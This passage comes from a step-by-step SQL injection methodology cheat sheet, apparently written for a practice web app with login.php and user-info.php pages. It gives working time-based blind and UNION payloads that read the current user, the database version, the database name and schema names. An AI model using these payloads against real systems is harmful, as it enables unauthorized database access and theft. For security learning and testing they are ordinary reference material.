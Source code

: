 - If no errors nor differences are produced, try timing attacks ("mysql sleep(), sql server waitfor(), oracle sleep()")

```SQL
    ' union Select null, null, null, sleep(5) --
```

## 2. Determine injection types that work

- UNION statements
  - Determine number of columns in application query. Inject NULL columns until injected query works.
  - Determine position of a varchar or equivalent column
  - Use position of found column(s) to place injected columns. Use NULL for rest
- Inline injection
  - Usually happens when ORDER BY or HAVING clause present in application query
- Timing injection

```SQl
    Technique: Blind SQL Injection - Timing
    Page: login.php
    Field: username
    Value (Using Proxy): ' union Select null, case SUBSTRING(current_user(),1,1) when 'r' THEN sleep(5) ELSE sleep(0) END, null, null --
    Value (Using Direct Request): username=%27%20union%20Select%20null%2C%20case%20SUBSTRING%28current_user%28%29%2C1%2C1%29%20when%20%27r%27%20THEN%20sleep%285%29%20ELSE%20sleep%280%29%20END%2C%20null%2C%20null%20--%20&password=&login-php-submit-button=1
```

## 3. Attempt to determine database server brand

```SQL
Technique: Direct Injection
Page: user-info.php
Field: username
Value (Using Proxy): ' union select null,VERSION() AS username,null,null --
```

## 4. Formulate and test query

## 5. Attempt to determine database name

```SQL
Technique: Direct Injection
Page: user-info.php
Field: username
Value (Using Proxy): ' union select null,DATABASE() AS username,null,null --
```

## 6. Attempt to determine schema name

```SQL
Technique: Direct Injection
Page: user-info.php
Field: username
Value (Using Proxy): ' union select null,table_schema AS username,null,null from INFORMATION_SCHEMA.TABLES--
```
